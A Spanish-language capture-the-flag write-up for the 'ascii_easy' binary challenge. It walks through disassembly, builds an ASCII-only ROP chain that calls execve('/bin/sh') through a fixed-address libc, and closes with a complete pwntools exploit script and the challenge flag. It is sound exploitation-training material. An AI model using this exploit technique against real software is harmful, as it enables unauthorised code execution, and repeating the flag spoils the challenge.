# ascii_easy

<img width="136" height="172" alt="ascii_easy" src="https://github.com/user-attachments/assets/1d506888-a479-48c0-ac6c-0df1f03ad740" />

```
checksec ascii_easy
[*] '/home/kalcast/Laboratorio/pwn/ascii_easy'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

## Intro

El reto carga una version vieja de libc en uan direccion fija de la memoria. Debemos hacer ROP para conseguir una shell pero con la condicion de que solo podemos usar valores ascii.

Pase una considerable cantidad de tiempo intentando hacer un retorno a wrappers de `execve` y fallando por alguna razon. En fin, que no vi la pista y eso me costó caro:

<img width="486" height="59" alt="2025-08-17-004211_486x59_scrot" src="https://github.com/user-attachments/assets/aa735a82-3995-4996-8d41-65aa8f4ad58a" />

Un `call execve` encadenable estaba en el offset 0x000d8b69:
```
 0x000d8b69      8b4de0         mov ecx, dword [var_20h]
|           0x000d8b6c      89742404       mov dword [esp+0x4], esi    ; int32_t arg_10h
|           0x000d8b70      893c24         mov dword [esp], edi        ; int32_t arg_ch
|           0x000d8b73      894c2408       mov dword [esp+0x8], ecx    ; int32_t arg_14h
|           0x000d8b77      e864fafdff     call sym.execve
|           0x000d8b7c      8d65f4         lea esp, [var_ch]
```

Tenemos que controlar `edi`, `esi` y `[ebp-0x20]` para llamar a `execve("/bin/sh",NULL,NULL)` 

Lamentablemente no podemos introducir bytes nulos y la direccion de la cadena "/bin/sh" no es ascii-completa.

Tenemos que usar gadgets ascii-completos que permitan construir direcciones con registros como  `add`, `sub`, `or`, `and`, `xor`, etc.

## edi
```
[0x00018550]> iz~/bin/sh
610  0x0015d7ec 0x0015d7ec 7    8    .rodata ascii   /bin/sh
```

Hay un gadget `add edi, dword ptr [ecx + 0xe] ; add al, 0xc6 ; ret`. Podemos hacer `edi=BASE + 0x0015d7ec` si introducimos una direccion valida en `edi` y con `ecx` podemos encontrar otra direccion que contenga un valor `x` tal que `edi + [ecx + 0xe] = BASE + 0x0015d7ec`.

Para `edi=BASE + 0x154020` la diferencia es `0xcc97`. Esta direccion sirve:
```
[0x00178e7c]> px 4
- offset -  7C7D 7E7F 8081 8283 8485 8687 8889 8A8B  CDEF0123456789AB
0x00178e7c  cc97 0000                                ....
```

## esi
Hay un gadget `add esi, ebx ; ret`, si cargamos en `esi` y `edi` direcciones validas tal que:
`0x100000000 = esi + edi*2`

Como se ve podemos con un overflow hacer `esi=0x00000000` si encontramos los valores correctos:
```
>>> hex((0x100000000 - 0x7b7b7b7a)//2)
'0x42424243'
```

## ecx
Practicamente execve carga `[ebp-0x20]` en ecx asi que usamos un `pop ebp`hacia alguna direccion ascii-completa que contenga 4 bytes nulos:
```
[0x00018550]> px 4
- offset -  5051 5253 5455 5657 5859 5A5B 5C5D 5E5F  0123456789ABCDEF
0x00018550  0000 0000                                ....
```

## Exploit

``` py
from pwn import *
# ascii lower word => 0x[40-9e][20-7e]
"""
 0x000d8b69      8b4de0         mov ecx, dword [var_20h]
|           0x000d8b6c      89742404       mov dword [esp+0x4], esi    ; int32_t arg_10h
|           0x000d8b70      893c24         mov dword [esp], edi        ; int32_t arg_ch
|           0x000d8b73      894c2408       mov dword [esp+0x8], ecx    ; int32_t arg_14h
|           0x000d8b77      e864fafdff     call sym.execve
|           0x000d8b7c      8d65f4         lea esp, [var_ch]
"""

BASE = 0x5555e000 
pop_ecx = 0x556d2a51                    #  0x556d2a51:  pop ecx ; add al, 0xa ; ret
pop_edi_ebx =  0x555e5132               # 0x555e5132:  pop edi ; pop ebx ; ret
pop_ebx_esi =  0x55686c71               # 0x55686c71:  pop ebx ; pop esi ; ret
add_esi_ebx =  0x555c612c               # 0x555c612c:  add esi, ebx ; ret
pop_ebp = 0x5557506f                    # 0x5557506f:  pop ebp ; ret
add_edi_ecx_content =  0x556d7d39       # 0x556d7d39:  add edi, dword ptr [ecx + 0xe] ; add al, 0xc6 ; ret
call_execve = BASE + 0x000d8b69         # execve([edi],[esi],[ecx])

payload = b"A" * 0x20
# set edi = "/bin/sh"
payload += p32(pop_ecx)
payload += p32(0x556d6e7c - 0xe)
payload += p32(pop_edi_ebx)
payload += p32(BASE + 0x154020)
payload += b"A"*4
payload += p32(add_edi_ecx_content)
# set esi = NULL
payload += p32(pop_ebx_esi)
payload += p32(0x42424243)
payload += p32(0x7b7b7b7a)    
payload += p32(add_esi_ebx)
payload += p32(add_esi_ebx)
# set [ebp - 0x20] = NULL
payload += p32(pop_ebp) # esp
payload += p32(BASE + 0x00018550 + 0x20)
payload += p32(call_execve)
p = process(["./ascii_easy",payload])
p.interactive()
```

`ASCII_armor_is_a_real_pain_to_d3al_with!`
